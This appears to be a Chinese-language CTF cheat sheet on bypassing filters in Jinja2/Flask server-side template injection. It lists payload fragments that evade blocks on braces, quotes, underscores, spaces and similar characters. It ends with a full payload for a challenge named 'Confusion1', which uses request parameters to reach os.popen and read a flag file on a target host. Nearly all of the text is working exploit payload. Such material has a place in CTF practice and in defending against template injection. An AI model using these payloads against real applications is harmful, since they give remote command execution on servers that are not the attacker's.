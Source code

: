 # 常见绕过手法
	- `{{`
		- `{% if ... %}1{% endif %}`
	- 关键字
		- `{{""["\x5f\x5fclass\x5f\x5f"]}}`
	- 引号
		- `(app.__doc__|list()).pop(102)|string()`
		- `dict(buil=aa,tins=dd)|join()`
		- `["a"]`可以用`[a]`代替？
	- `+`
		- `~`
		- `__add__`
		- `"a""b"`
	- 下划线
		- `config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3)`
		- `lipsum|escape|batch(22)|list|first|last`
	- 空格
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)`
	- 斜杠
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)`
	- `%`
		- `(()|safe).__doc__`里面有
- # 利用 request 对象绕过
	- 题目: Confusion1
	- ```
	  http://111.200.241.244:59576/a.php/{{''[request.args.clas][request.args.mo][2][request.args.sub]()[230][request.args.in][request.args.g1+request.args.g2][request.args.o+request.args.s][request.args.po+request.args.pen](request.args.cmon)[request.args.re+request.args.ad]()}}
	  ?clas=__class__
	  &mo=__mro__
	  &sub=__subclasses__
	  &in=__init__
	  &g1=__global
	  &g2=s__
	  &po=po
	  &pen=pen
	  &o=o
	  &s=s
	  &re=re
	  &ad=ad
	  &cmon=c'at' /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt
	  ```